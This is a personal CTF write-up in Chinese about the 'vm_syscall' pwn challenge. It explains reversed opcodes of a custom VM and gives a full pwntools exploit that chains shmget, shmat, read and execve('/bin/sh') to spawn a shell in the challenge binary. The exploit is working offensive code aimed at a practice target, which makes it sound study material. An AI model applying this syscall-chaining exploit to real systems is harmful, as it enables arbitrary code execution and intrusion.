





看了题解

于是来复现一下

# vm_syscall

知识点是

shmget+shmat=mmap

结构体好像已经逆向完了

现在分析每个指令的作用

ai加油，分析指令和寄存器的关系

shmget shmat

### Opcode 0: 重置与打印 (Reset / NOP)

- **指令格式**：`[0x00]`

- **解析行为 (`decode_and_check`)**：清空虚拟机的上下文状态。将寄存器 `reg[0]` 到 `reg[3]` 全部置为 `0`，并将内部暂存的 `immediate`（立即数）清零。

- **执行行为**：在控制台打印一句彩蛋字符串 `"Blessed are the people who have nothing, for they shall have everything!"`。

- **寄存器影响**：**全部清零**。

### Opcode 1: 寄存器数据移动 (MOV / SWAP)

- **指令格式**：`[0x01] [目标寄存器索引 dest] [源寄存器索引 src1] [子操作码 sub_opcode]`

- **解析行为**：从字节码中连续读取两个字节，分别作为 `dest` 和 `src1` 的寄存器编号，并校验编号是否在 0~3 之间。

- **执行行为 (`op_mov`)**：根据紧接着读取的 1 字节 `sub_opcode` 执行移动操作：



### Opcode 2: 寄存器与立即数运算 (Math Immediate)

- **指令格式**：`[0x02] [dest] [src1] [立即数长度 len] [立即数 byte 1] ... [立即数 byte N] [子操作码 sub_opcode]`

- **解析行为**：依次读取 `dest` 和 `src1` 的索引。接着读取 1 字节的 `len`（最大为 4），然后循环 `len` 次读取字节，拼装成一个大端序（Big-Endian）的立即数存入虚拟机的 `immediate` 变量中。

- **执行行为 (`op_math_imm`)**：根据最后读取的 1 字节 `sub_opcode`，将 `reg[src1]` 与 `immediate` 进行数学/逻辑运算，结果存入 `reg[dest]`。



### Opcode 3: 寄存器与寄存器运算 (Math Register)

- **指令格式**：`[0x03] [dest] [src1] [src2] [子操作码 sub_opcode]`

- **解析行为**：连续读取 3 个字节，分别作为 `dest`、`src1` 和 `src2` 的寄存器索引，并校验合法性。

- **执行行为 (`op_math_reg`)**：与 Opcode 2 完全类似，但运算的第二个操作数变成了 `reg[src2]`，而不是立即数。结果同样存入 `reg[dest]`。



### Opcode 4: 系统调用 (Syscall)

- **指令格式**：`[0x04]`

- **解析行为**：无额外参数读取。

- **执行行为 (`op_syscall`)**：触发原生的 Linux `syscall` 指令。

- **寄存器影响**：它会将虚拟机上下文中的 `ptr->reg` 数组直接用于系统调用。在 x86_64 架构下，这通常意味着 `reg[0]` 会被当作系统调用号 (`rax`)，`reg[1]` 到 `reg[3]` 会被当作系统调用的前三个参数（通常映射到 `rdi`, `rsi`, `rdx`）。执行完毕后，系统调用的返回值（通常存放在原生 `rax` 中）可能会写回 `reg[0]`。



系统调用前清空了除了可控的寄存器之外的寄存器

大概是逆向完成之后的结构体（？）



`reg[0]` 会被当作系统调用号 (`rax`)，`reg[1]` 到 `reg[3]` 会被当作系统调用的前三个参数（通常映射到 `rdi`, `rsi`, `rdx`）。执行完毕后，系统调用的返回值（通常存放在原生 `rax` 中）可能会写回 `reg[0]`。

（为什么把这句单独提出来一遍呢因为我记不住我看两遍）

然后就是重复的拼系统调用环节

超级拼装

但是不知道为什么一会拿得到shell一会拿不到

一开始拿不到，不知道为什么，就在syscall下了个断点

然后就拿到shell了（？）不知道为什么。

## exp

```python
from pwn import*
filename = './114723_pwn'
# libc = 

e = ELF(filename)
# libc = ELF(libc)
context(arch=e.arch,os=e.os)
context.log_level = 'debug'

sla = lambda x,s:p.sendlineafter(x,s)
sl = lambda s:p.sendline(s)
sa = lambda x,s:p.sendafter(x,s)
s = lambda s:p.send(s)

p = process(filename)
gdb.attach(p)
# p = remote()


p.recvuntil(b'Enter your code:')


payload = b'\x02\x00\x00\x01\x1d\x10'  
# reg0(rax) = 0x1d
payload += b'\x02\x02\x01\x01\x10\x10'
payload += b'\x02\x02\x02\x01\x10\x30'
payload += b'\x02\x02\x02\x01\x10\x30'
# reg2(rsi) = 0x1000(需要申请这么多吗，我只申请0x10应该也没区别吧反正就放一个/bin/sh\x00，算了)
payload += b'\x02\x03\x01\x01\x0a\x10'
payload += b'\x02\x03\x03\x01\x05\x30'
payload += b'\x02\x03\x03\x01\x13\x30'
# reg3(rdx) = 950(0x3b6)。这个怎么加。我一个一个加吗。好难加。哦对不起忘了有乘法了
payload += b'\x04' 
# syscall
# shmget

payload += b'\x02\x01\x00\x01\x00\x10'
# reg1(rdi) = 上一步的返回值
payload += b'\x03\x00\x00\x00\x20'
payload += b'\x02\x00\x00\x01\x0f\x10'
payload += b'\x02\x00\x00\x01\x02\x30'
# reg0 = 30
payload += b'\x03\x02\x02\x02\x20'
# reg2 = 0
payload += b'\x03\x03\x03\x03\x20'
# reg3 = 0
payload += b'\x04'
# syscall
# shmat

payload += b'\x02\x02\x00\x01\x00\x10'
# reg2 = mapped_addr
payload += b'\x03\x00\x00\x00\x20'
# reg0 = 0
payload += b'\x03\x01\x01\x01\x20'
# reg1 = 0
payload += b'\x03\x03\x03\x03\x20'
payload += b'\x02\x03\x03\x01\x08\x10'
# reg3 = 8
payload += b'\x04'
# syscall
# read

payload += b'\x02\x01\x02\x01\x00\x10'
# reg1 = mapped_addr
payload += b'\x03\x00\x00\x00\x20'
payload += b'\x02\x00\x00\x01\x0a\x10'
payload += b'\x02\x00\x00\x01\x05\x30'
payload += b'\x02\x00\x00\x01\x09\x10'
# reg0 = 59
payload += b'\x03\x02\x02\x02\x20'
# reg2 = 0
payload += b'\x03\x03\x03\x03\x20'
# reg3 = 0
payload += b'\x04'
# syscall
# execve

sl(payload)
pause()
payread = b'/bin/sh\x00'
sl(payread)


p.interactive()
```
